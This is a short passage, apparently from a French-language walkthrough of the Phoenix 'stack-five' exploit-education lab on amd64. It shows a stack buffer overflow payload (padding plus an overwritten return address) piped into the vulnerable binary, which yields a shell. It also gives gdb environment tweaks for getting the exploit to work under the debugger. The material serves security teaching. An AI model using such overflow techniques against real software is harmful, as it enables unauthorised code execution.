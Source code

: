 ```sh
user@phoenix-amd64:~$ echo -ne "$fill\x50\xe4\xff\xff\xff\x7f\x00\x00" | /opt/phoenix/amd64/stack-five 
$ # shell started
```

> Si ca ne marche pas avec `start` alors que le shellcode est bel et bien exécuté, essayez avec `run` et en utilisant un fichier au lieu d'une commande bash:
> ```sh
> user@phoenix-amd64:~$ echo -ne "$fill\x50\xe4\xff\xff\xff\x7f\x00\x00" > input-stack-five.txt
> user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-five
> (gdb) unset env LINES
> (gdb) unset env COLUMNS
> (gdb) set env _=/opt/phoenix/amd64/stack-five
> (gdb) start < ./input-stack-five.txt
> ```